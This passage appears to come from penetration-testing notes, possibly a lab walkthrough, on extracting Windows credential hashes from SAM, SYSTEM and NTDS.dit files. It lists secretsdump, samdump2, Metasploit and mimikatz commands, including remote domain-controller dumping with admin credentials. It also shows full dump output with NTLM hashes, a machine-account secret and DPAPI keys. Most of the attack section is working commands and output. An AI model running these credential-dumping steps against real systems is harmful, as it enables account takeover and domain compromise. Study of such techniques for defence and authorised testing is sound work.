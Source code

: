 **Download** those files to your Kali machine and **extract the hashes** using:
```sh
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

[**#Extracting hashes from NTDS.dit**]

Once you have **obtained** the files **NTDS.dit** and **SYSTEM** you can use tools like _secretsdump.py_ to **extract the hashes**:
```sh
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```

You can also **extract them automatically** using a valid domain admin user:
```sh
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

For **big NTDS.dit files** it's recommend to extract it using [gosecretsdump](https://github.com/c-sto/gosecretsdump).

Finally, you can also use the **metasploit module**: _post/windows/gather/credentials/domain_hashdump_ or **mimikatz** `lsadump::lsa /inject`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`impacket-secretsdump -system ./smbshare/SYSTEM.save -security ./smbshare/SECURITY.save -sam ./smbshare/SAM.save LOCAL`:
``` 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC  ←
$MACHINE.ACC:plain_password_hex:59402f7d480522e40f98bc19790f5b50ab6e61286dc45025483ee0f7768c9e428abe118e4c07b5e29fefa22d09f0b7dafb4aa922fcb8a43e8df6f1272323354c31c4d09837ccd11737f27a969714f4ebed946a7cb9e62efe05af456168770223200df429285f83d20496ea80ff2c7b7bbe194adf9c82183e3d1eac45fb9d7ed61d7eac9d7e094124bb2b54fc220abeec30963e59a08639f04b3cfab6811e644c79e6b5a0fee1cdb7c2fc0390e49378e51cd24d6bb491444f073cf0886fcab138310d45b86f805de03078aab9b2931dcdb2711bb6c94d6b6295730747957afc7524184d39956e514b73152c29cfe2024e
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:0daed4f186dca68d441b1b5415c674b4 ←
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up... 
```

